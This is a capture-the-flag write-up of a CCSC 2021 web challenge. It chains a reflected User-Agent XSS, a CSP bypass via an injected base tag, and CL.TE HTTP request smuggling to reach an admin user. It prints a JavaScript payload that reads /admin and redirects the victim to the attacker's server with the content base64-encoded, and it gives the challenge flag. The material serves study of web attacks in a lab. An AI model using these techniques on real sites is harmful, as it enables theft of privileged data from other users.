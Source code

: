 ```yaml
---
title: CCSC 2021&#58; Synchronous Chess
tags: ccsc web xss smuggling writeup
---
```


## Description
The final match of the Moscow Invitational (1968) has been adjourned at the request of the defending World Champion, Vassily Borgov. His next move has been stored for safe keeping by the arbiters of the tournament, until the match resumes tomorrow. However, the arbiters cannot be trusted 100% so we need to help Beth smuggle out the move so she can be sure that no foul play will abound.

Challenge running at: [http://192.168.125.11:7000](http://192.168.125.11:7000/)

___

Reading the description i didn't get any hint towards what the challenge might be, so i quickly opened the web app and started testing. The web apps home page greets us with a login page.

![](images/Pasted%20image%2020210421194104.png)

I first tried some defualt easy-to-guess credentials but no luck there, then i thought about testing for SQL injections but before i started testing i wanted to first enumerate the application a litte, so i started up burp and checked for 404,401,500 and 400 error pages and something odd stood out to me.

As you can see from the image below, a 404 error prints my user-agent at the bottom, but that didnt show in the web app, sneaky author. Next i tested for XSS by changing my user agent to `User-Agent: <script>alert(1)</script>`

![](images/Pasted%20image%2020210421194558.png)

![](images/Pasted%20image%2020210421194907.png)

The script tag got injected to the web app but did not work so i opened my developer tools to check what the error might be:

![](images/Pasted%20image%2020210421194948.png)

Looks like the CSP (Content Security Policy) protected this web page from executing my inline javascript. One can find the CSP configuration from the response headers, in this case it was: 
```
default-src 'self'; script-src 'self' 'nonce-UpZ2W3JTsZCvHOlE'; img-src 'self'; object-src 'none'
```

I quickly threw this policy in a [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and it showed an error that the CSP might be bypassable:


![](images/Pasted%20image%2020210421195241.png)

```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```

I googled online what a [base](https://www.w3schools.com/tags/tag_base.asp) tag is, basically you can add a `base` tag to reference the url that contains all included javascript/css files. Meaning if i add a `base` tag like:

`<base href="http://attacker.com">`

and the web page wanted to fetch `/js/main.js` it would make a request to `http://attacker.com/js/main.js`, and since i control the attacker domain i can easily clone the directory tree and include my own javascript file, bypassing the CSP and getting XSS. 

The CCSC gave all its competitors an attack machine (192.168.125.100) which we could use to get reverse shells, etc. since the challenges cannot access the internet.

I next viewed the source code of the app to see which javascript file i could fake, i used `/static/js/main.js`. I ssh'ed into my attack machine, created the directory tree and a `main.js` file with `alert(1)` as its contents. Then i used `php` to start a web server on port `1234`

![](images/Pasted%20image%2020210421201658.png)

Next i made the same request to get a 404 response but with a `User-Agent` like so: `User-Agent: <base href="http://192.168.125.100:1234/">`. Sent the request and requested the reponse in my browser. As you can see from the screenshot below  it worked! The web page requested the `main.js` file from my attack machine and found it, executing my alert.

![](images/Pasted%20image%2020210421201736.png)

Up until this part was quite easy for me, i had reflected XSS on the web site but did not know how that could help me further. How can i make another user send a request with a custom user-agent? After digging in the application a bit more i noticed a `/admin` path that was restricted, i did not try any header manipulating techniques to bypass the ip restriction since i was 99% sure that the XSS was there for a reason.

![](images/Pasted%20image%2020210421202541.png)

Since i was stuck i went to [burp academy](https://portswigger.net/web-security/all-labs) (I believe you need an account to view the labs) and checked all the Labs that were available, maybe get an idea how to exploit my reflected XSS further and noticed one lab that could help me.

![](images/Pasted%20image%2020210421203024.png)

Http request smuggling sounds perfect for this challenge, in simple terms if the web app is prone to http request smuggling i could send a request like the below screenshot. By abusing the `Content-Length` or `Transfer-Encoding` header, the front-end and backend do not aggree on which one to use, as a result the back-end views the smuggled request as a seperate one, this request get stored in the web cache and the next request another user makes will get the response of the smuggled request. 

![](images/Pasted%20image%2020210421204219.png)


I added the `HTTP Request Smuggler` extension to burp suite and scanned the web application for request smuggling on the POST /login endpoint. Then the issue i was expecting appeard, `Possible HTTP Request Smuggling`. 

![](images/Pasted%20image%2020210421221039.png)

Perfect, I sent the above request to my repeater and used the smuggle attack(CL.TE) to check if i could smuggle a request. As you can see from the below screenshots, i smuggle a GET request to a non-exsitent page within my POST request to `/login`. In the second screenshot we notice that at some point the POST request to `/login` responded with 404!

![](images/Pasted%20image%2020210421221322.png)

![](images/Pasted%20image%2020210421221222.png)

Now all i needed to do is modify the request to include my custom `User-Agent` with the base tag and hopefully i will notice the admin user making requests to my attack machine.

And there you go, i am now getting requests on my attack machine from the admin user

![](images/Pasted%20image%2020210421222129.png)

But all that is happening to the admin user is a simple alert box, i want to see the contents of `/admin`, i updated my `main.js` file to simply make an ajax request to `/admin` and then redirect the admin to my attack machine with `window.location.replace` and add the contents from the ajax request in a GET parameter base64 encoded

Here is the final payload of `main.js`

```javascript
var x = new XMLHttpRequest(); 
x.open("GET", "http://192.168.125.11:7000/admin");
x.onload = function(){
        response = btoa(x.responseText);
        window.location.replace("http://192.168.125.100:1234/?".concat(response));
 }; 
 x.send(); 
```

Again, sent my smuggled request and BOOM, got the base64 encoded response on my server logs

![](images/Pasted%20image%2020210421224642.png)

Now i just decoded the base64 query parameter and got the flag.

![](images/Pasted%20image%2020210421224814.png)

flag: `CCSC{h77p_R3Qu357_5muGGl1N_15_5up3R_pHuN}`

This was my favourite challenge in the CCSC competition, a big well done to `styx00` for creating such a sick challenge.